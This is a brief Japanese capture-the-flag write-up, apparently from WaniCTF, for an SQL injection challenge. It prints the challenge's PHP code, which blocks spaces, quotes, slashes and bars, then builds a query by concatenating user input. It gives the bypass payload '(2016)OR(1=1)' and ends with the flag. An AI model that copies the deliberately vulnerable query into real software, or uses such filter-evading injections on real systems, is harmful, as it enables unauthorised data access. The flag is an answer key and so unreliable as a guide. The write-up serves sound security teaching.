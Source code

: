 # Writeup

SQLインジェクションをしてフラグを入手する。ただし、使えるクエリ文字列には制限がある。

```php
//一部の文字は利用出来ません。以下の文字を使わずにFLAGを手に入れてください。
if (preg_match('/\s/', $year))
    exit('危険を感知'); //スペース禁止
if (preg_match('/[\']/', $year))
    exit('危険を感知'); //シングルクォート禁止
if (preg_match('/[\/\\\\]/', $year))
    exit('危険を感知'); //スラッシュとバックスラッシュ禁止
if (preg_match('/[\|]/', $year))
    exit('危険を感知'); //バーティカルバー禁止                    

//クエリを作成する。
$query = "SELECT * FROM anime WHERE years =$year";
```

クエリパラメータに`(2016)OR(1=1)`を与える。すると、`SELECT * FROM anime WHERE years =(2016)OR(1=1)`が実行されてすべての`anime`カラムが取得できる。

https://sql1.wanictf.org/index.php?year=(2016)OR(1=1)

[参考]

* https://security.stackexchange.com/questions/127655/would-removing-spaces-in-a-string-protect-against-sql-injection

<!-- FLAG{53cur3_5ql_a283b4dffe}	 -->